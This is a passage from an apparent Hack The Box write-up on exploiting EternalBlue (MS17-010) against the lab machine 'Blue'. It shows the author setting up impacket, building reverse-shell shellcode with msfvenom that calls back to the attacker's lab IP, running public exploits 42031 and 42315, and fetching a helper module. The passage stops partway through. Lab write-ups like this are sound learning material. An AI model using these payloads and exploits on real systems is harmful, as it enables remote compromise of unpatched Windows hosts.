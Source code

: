 ```bash
┌──(mac㉿kali)-[~/Documents/HTB/blue]
└─$ curl https://bootstrap.pypa.io/pip/2.7/get-pip.py --output get-pip.py
┌──(mac㉿kali)-[~/Documents/HTB/blue]
└─$ python2 get-pip.py
...[snip]...
Successfully installed pip-20.3.4 wheel-0.36.2
┌──(mac㉿kali)-[~/Documents/HTB/blue]
└─$ /home/mac/.local/bin/pip2.7 install impacket
...[snip]...
```

This fixed our issues, and we could now run our script:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/blue]
└─$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=10.10.14.2 LPORT=9001 > shellcode
...[snip]...
┌──(mac㉿kali)-[~/Documents/HTB/blue]
└─$ python2 42031.py 10.10.10.40 shellcode
```

As I said, the script didn't end up working - but these debugging steps were useful to learn. [This thread](https://forum.hackthebox.eu/discussion/4061/need-help-with-manual-py-exploit-cant-concat-str-to-bytes) on the HTB forum was extremely useful.

## Working Exploit - 42315

I followed [this excellent tutorial](https://null-byte.wonderhowto.com/how-to/manually-exploit-eternalblue-windows-server-using-ms17-010-python-exploit-0195414/) on exploiting Eternal Blue manually. It used a different exploit, `windows/remote/42315.py`.

First, mirror the exploit:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/blue]
└─$ searchsploit -m windows/remote/42315.py
```

The exploit requires providing a working username. When I first tried the box I went with `null`, as I had used it to login before.

I tried the exploit multiple times before realising this was incorrect - in fact, earlier enumeration exposed that `guest` was the correct username to login with. I set this in the code:

![[Pasted image 20210501185951.png]]

After setting the username, I downloaded `mysmb`, a required package:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/blue]
└─$ wget https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py
```

Then I ran a scan for named pipes on the box. These allow processes to communicate and specifying one is a crucial step of the exploit:
